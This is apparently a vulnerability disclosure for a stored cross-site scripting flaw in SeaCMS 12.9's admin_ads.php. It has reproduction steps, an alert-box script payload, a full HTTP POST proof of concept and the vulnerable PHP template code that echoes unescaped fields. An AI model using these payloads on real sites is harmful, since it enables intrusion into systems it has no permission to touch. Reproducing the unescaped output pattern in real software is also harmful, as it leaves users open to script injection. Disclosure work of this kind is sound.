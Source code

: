 ### seacms12.9 admin_ads.php stored xss

Visit the admin_ads.php route and enter the parameter action=edit



Go to the following page

![image-20240821003639113](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821003639113.png)

Enter the following code in the ad description

`<script>alert(1)</script>`

Click to edit ad

![image-20240821003721157](https://gitee.com/nn0nkey/picture/raw/master/img/image-20240821003721157.png)

Success pop-up window

**POC**

```java
POST /p8qca/admin_ads.php?action=editsave&id=3&page=1 HTTP/1.1
Host: seacms:8181
Content-Length: 187
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://seacms:8181
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://seacms:8181/p8qca/admin_ads.php?action=edit&page=1&id=3
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: PHPSESSID=5dl35hp50uj606p52se8kg91a2; t00ls=e54285de394c4207cd521213cebab040; t00ls_s=YTozOntzOjQ6InVzZXIiO3M6MjY6InBocCB8IHBocD8gfCBwaHRtbCB8IHNodG1sIjtzOjM6ImFsbCI7aTowO3M6MzoiaHRhIjtpOjE7fQ%3D%3D
Connection: keep-alive

adname=channel728x90&adenname=channel728x90&intro=%3Cscript%3Ealert%281%29%3C%2Fscript%3E&adsbody=document.writeln%28%22%3Cdiv+class%3D%5C%22guanggao_neirong%5C%22%3E%3C%5C%2Fdiv%3E%22%29
```

Automatically jump to pop-up window after sending POC

The following is code analysis

There is the following code in admin_ads.php

```php
elseif($action=="edit")
{
   $row = $dsql->GetOne("Select * From `sea_myad` where aid='$id'");
   include(sea_ADMIN.'/templets/admin_ads_edit.htm');
   exit();
}
```

包含了/templets/admin_ads_edit.htm文件

```java
<tr class="thead"><th colspan="2">修改广告</th></tr>
    <TR>
      <TD vAlign=center width="11%" >广告名称：</TD>
      <TD width="89%" ><input type="text" size="50" name="adname" value="<?php echo $row['adname']?>" /><font color="red">＊</font></TD>
    </TR>
    <TR>
      <TD >广告标识：</TD>
      <TD ><input type="text" size="50" name="adenname" value="<?php echo $row['adenname']?>" /><font color="red">＊</font></TD>
    </TR>
    <TR>
      <TD >广告描述：</TD>
      <TD ><input type="text" size="100" name="intro" value="<?php echo $row['intro']?>" /></TD>
    </TR>
    <TR>
       <TD >广告内容：<br />(<font color="red">填写js代码</font>)<br /><input type="button" value="HTML转JS"  onclick="openHtmlToJsWin('htmltojs')" class="rb1"/><br/><input type="button" value="JS转HTML"  onclick="openHtmlToJsWin('jstohtml')" class="rb1"/></TD>
      <TD ><textarea name="adsbody" id="adsbody"  style="width:98%;font-family: Arial, Helvetica, sans-serif;font-size: 14px;" rows="20"  ><?php echo $row['adsbody']?></textarea><font color="red">＊</font></TD>
    </TR>
    <TR>
      <td></td><TD ><input type="submit" value="修 改 广 告" class="rb1" />
      &nbsp;<input type="button" value="返   回"  class="rb1" onClick="javascript:history.go(-1)" /></TD>
    </TR>
</td></tr></table>
```

It can be found that the page will output our adsbody to the page, and then store it in the database, resulting in stored xss

